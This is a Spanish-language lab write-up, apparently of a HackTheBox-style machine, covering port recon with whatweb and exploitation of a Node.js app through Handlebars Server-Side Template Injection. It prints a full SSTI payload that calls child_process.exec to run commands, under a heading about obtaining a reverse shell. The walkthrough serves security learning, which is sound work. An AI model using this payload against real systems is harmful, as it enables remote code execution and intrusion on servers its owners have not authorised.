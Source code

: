 ![[Bike1.png]]

![[Bike2.png]]

Por el ttl cercano a 64 sabemos que es una maquina linux y que el puerto 80 esta corriendo con un node.js y el 22 con un ssh

----

# [[Enumeracion con pequeño script de NMAP y Whatweb-wappalyzer]]

```shell
whatweb http://10.129.178.83/
```

![[Bike3.png]]

![[Bike4.png]]

El script de nmap no anda, y el whatweb no nos da informacion relevante

-----

# Intrusion a la maquina con [[Server-Side Template Injection (SSTI)]] 

## Enumeracion

![[Bike5.png]]
Probamos poner {{7\*7}} y nos da un error que nos redirige a una consola en node.js                              | esta capado

![[Bike10.png]]

## Interceptamos petición con caido para mandar una [[Reverse shell]]


[Link del articulo hacktriks](https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/index.html#handlebars-nodejsl) del cual sacamos el payload
```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```
